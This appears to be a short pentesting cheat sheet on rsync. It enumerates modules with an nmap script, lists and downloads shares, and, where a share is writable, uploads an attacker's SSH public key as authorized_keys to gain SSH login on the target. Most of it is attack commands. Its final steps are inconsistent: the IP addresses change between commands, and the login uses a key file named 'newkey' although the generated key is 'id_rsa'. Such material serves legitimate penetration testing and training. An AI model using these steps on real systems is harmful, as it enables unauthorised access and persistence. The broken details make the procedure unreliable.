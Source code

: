 # Enumeration 

## Enumeration of shared folders

* An rsync module is essentially a directory share. These modules can optionally be protected by a password. This options lists the available modules and, optionally, determines if the module requires a password to access:
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
```

Manual Rsync

* Once you have the list of modules you have a few different options depending on the actions you want to take and whether or not authentication is required. If authentication is not required you can list a shared folder:
```bash
rsync -av --list-only rsync://192.168.0.123/shared_name
```

* And copy all files to your local machine via the following command:
```bash
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```

If you can write to the shares follow the next commands

#
```
#Create a ssh key
ssh-keygen -f id_rsa
```

```
#create .ssh folder in teh rsyn_shared you downloaded
mkdir .ssh

#copy the public to the authorized_keys ( you have to create that file)
cp id_rsa.pub .ssh/authorized_keys


#transfer .ssh to target
rsync -r ./.ssh 192.168.122.126::fox/

#then ssh into user
ssh -i newkey fox@192.168.85.126
```



